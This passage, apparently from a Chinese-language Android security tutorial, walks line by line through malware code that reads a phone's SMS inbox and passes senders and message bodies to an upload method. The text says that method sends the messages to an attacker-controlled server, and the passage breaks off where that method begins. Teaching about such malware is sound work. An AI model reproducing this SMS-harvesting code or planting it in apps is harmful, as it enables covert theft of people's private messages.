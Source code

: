 ```

        while(cursor.moveToNext()){

          sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
          }

          arrayList.add(new BasicNameValuePair("sms",sms));

          uploadData(arrayList);

        }
      };
      thread.start();
    ```

让我们逐行理解前面的代码：

*   首先，我们创建了一个线程，以避免在主线程上执行网络任务。
*   接下来，我们将创建一个 Uri 对象，指定要读取的内容。在我们的例子中，它是收件箱内容。`Uri` 对象通常用于告诉`ContentProvider`我们希望通过引用访问的内容。它是到特定资源的不可变的一对一映射。方法`Uri.parse`从格式正确的字符串创建一个新的 Uri 对象：

    ```
    Uri uri = Uri.parse("content://sms/inbox");
    ```

*   接下来，我们使用游标对象从表中读取`SMS`**`body`和`From`字段。提取的内容存储在我们前面声明的`sms`变量中：

    ```
    Cursor cursor = getContentResolver().query(uri,null,null,null,null);

      int index = cursor.getColumnIndex("body");

      while(cursor.moveToNext()){

        sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
     }
    ```** 
***   阅读短信后，我们使用以下行将值作为基本名称-值对添加到`ArrayList`对象：

    ```
    arrayList.add(new BasicNameValuePair("sms",sms));
    ```

    *   最后，我们使用`ArrayList`对象作为参数调用`uploadData()`方法。如下所示：

    ```
    uploadData(arrayList);
    ```** 

 **#### uploadData（）方法的代码

以下是将 SMS 上传到攻击者控制的服务器的代码：

```
private void uploadData(ArrayList<BasicNameValuePair> arrayList) {
